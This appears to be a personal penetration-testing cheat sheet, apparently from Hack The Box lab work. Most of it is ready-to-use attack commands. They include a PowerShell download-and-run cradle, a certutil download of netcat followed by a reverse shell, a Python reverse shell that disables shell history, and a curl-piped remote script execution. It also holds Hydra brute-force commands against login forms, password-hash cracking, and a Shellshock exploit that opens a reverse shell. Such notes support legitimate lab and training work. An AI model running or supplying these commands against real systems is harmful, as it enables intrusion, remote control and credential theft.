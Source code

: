 # Windows

## Smb shares enumerate

`smbclient -L 10.10.10.134 -U " "%" " `

## Hidden streams

* List files with streams: `dir \R`
* Read a stream from command line: `more < FileName:StreamName`

## List services

`wmic service where started=true get name, startname`

## Powershell reverse

`IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')`

## Download nc and reverse shell

```
cmd.exe /C net use /D /Y * && cmd.exe /C certutil.exe -urlcache -split -f 'http://10.10.16.65/nc.exe' C:\Users\Public\nc.exe & C:\Users\Public\nc.exe 10.10.16.65 1234 -e powershell.exe
```

# Linux

## Information gather

### check if is the docker 

```
cat /proc/1/cgroup
```

## DNS zone transfer

`dig axfr @10.10.10.52 matis.htb`

## FTP download files 

`wget -r --no-passive ftp://10.10.10.106`

## Reverse shells

* socat file:\`tty\`,echo=0,raw udp-listen:4444
* `import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.16.28\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])`

## Get remote script and execute

`bash <(curl -s http://mywebsite.com/myscript.txt)`

## Find exclude specific words

`find / -type f -name "filename" 2>&1 | grep -v "Permission denied`

## Check capacity

`getcap -r / 2>/dev/null`

## ssh

### 使用 private key 登录

![AxtqoR.png](https://s2.ax1x.com/2019/04/16/AxtqoR.png)

修改 private key 权限，`chmod 4000`

## Tools

### Cewl

#### Generate password list

```
cewl -w cewl-forum.txt -e -a http://gorum.bart.htb
```

### Hydra

#### Brute force login form http

```
 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -Vv -f
 ```
 
 #### Brute force login form https
 
 ```
 hydra 10.10.10.43 -l whatever -P /opt/SecLists/Passwords/darkweb2017-top10000.txt https-post-form "/db/:password=^PASS^&remember=yes&login=log+in&proc_login=true:Incorrect password." -Vv -s 443
 ```

### John

#### 7z

```
/opt/john/run/7z2john.pl backup.7z > backup.hash
hashcat -m 11600 -a 0 -o backup.cracked backup.hash /usr/share/wordlists/rockyou.txt --force
```

### wfuzz

#### brute force subdomains

```
 wfuzz -w /opt/SecLists/Discovery/DNS/subdomains-top1mil-110000.txt -u http://10.10.10.120/ -H 'Host: FUZZ.chaos.htb' --hh 73 --hc 400
 ```

### Nmap 

#### ldap

`nmap -p 389 --script ldap-search 10.10.10.119`

## network

### Test icmp

`tcpdump -i tun0 icmp`

## Exploits

### Shellshock

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/10.10.15.98/7777 0>&1 " http://10.10.10.56:80/cgi-bin/user.sh
```
